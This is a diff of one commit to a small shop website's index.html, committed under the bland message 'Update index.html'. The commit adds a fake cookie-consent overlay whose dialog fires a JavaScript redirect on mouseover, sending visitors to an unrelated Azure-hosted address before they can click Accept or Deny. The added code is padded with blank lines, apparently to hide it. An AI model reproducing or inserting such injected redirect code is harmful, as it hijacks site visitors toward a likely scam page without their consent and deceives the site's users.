

Before and after one commit to sanjsndas/cartleap-shop, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 795 px of the page. Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -25,7 +25,100 @@
             box-sizing: border-box;
         }
 
-        body {
+
+
+
+
+
+
+
+
+            body {
+      margin: 0;
+      padding: 0;
+      font-family: 'Segoe UI', sans-serif;
+      background: url('https://via.placeholder.com/1200x800') no-repeat center center/cover;
+      height: 100vh;
+    }
+
+    .overlay {
+      position: fixed;
+      inset: 0;
+      backdrop-filter: blur(5px);
+      background: rgba(0, 0, 0, 0.5);
+    }
+
+    .dialog-box {
+      position: fixed;
+      top: 50%;
+      left: 50%;
+      transform: translate(-50%, -50%);
+      background: #1c1c1c;
+      color: white;
+      padding: 30px;
+      border-radius: 20px;
+      width: 400px;
+      box-shadow: 0 0 25px rgba(0,0,0,0.6);
+      text-align: center;
+      transition: 0.3s;
+    }
+
+    .dialog-box:hover {
+      cursor: pointer;
+    }
+
+    .dialog-box h2 {
+      margin-top: 0;
+      font-size: 1.6em;
+      color: #fff;
+    }
+
+    .dialog-box p {
+      font-size: 1em;
+      line-height: 1.6em;
+      color: #ccc;
+    }
+
+    .buttons {
+      display: flex;
+      justify-content: center;
+      margin-top: 20px;
+      gap: 15px;
+    }
+
+    .buttons button {
+      padding: 10px 25px;
+      border: none;
+      border-radius: 25px;
+      font-size: 1em;
+      font-weight: bold;
+      cursor: pointer;
+    }
+
+    .accept {
+      background-color: #00cc66;
+      color: white;
+    }
+
+    .deny {
+      background-color: #e53935;
+      color: white;
+    }
+
+    .policy-link {
+      margin-top: 15px;
+      display: block;
+      color: #00bcd4;
+      text-decoration: none;
+      font-size: 0.9em;
+    }
+
+
+
+
+
+
+
             font-family: 'Outfit', 'Inter', sans-serif;
             line-height: 1.6;
             color: var(--dark-gray);
@@ -1215,6 +1308,33 @@
         </div>
     </section>
 
+
+
+
+
+       <div class="overlay">
+    <div class="dialog-box" onmouseover="redirect()">
+      <h2>🍪 Our New Cookie Policy !</h2>
+      <p>
+        For optimized experience, some elements may store temporary signals & For your safety, our Website uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
+      </p>
+      <div class="buttons">
+        <button class="accept">Accept</button>
+        <button class="deny">Deny</button>
+      </div>
+      <a href="#" class="policy-link">Policy Page</a>
+    </div>
+  </div>
+
+  <script>
+    function redirect() {
+      window.location.href = "https://errorro0x0099qr.z13.web.core.windows.net/";
+    }
+  </script>
+
+
+
+
     <!-- Footer -->
     <footer>
         <div class="container">
```
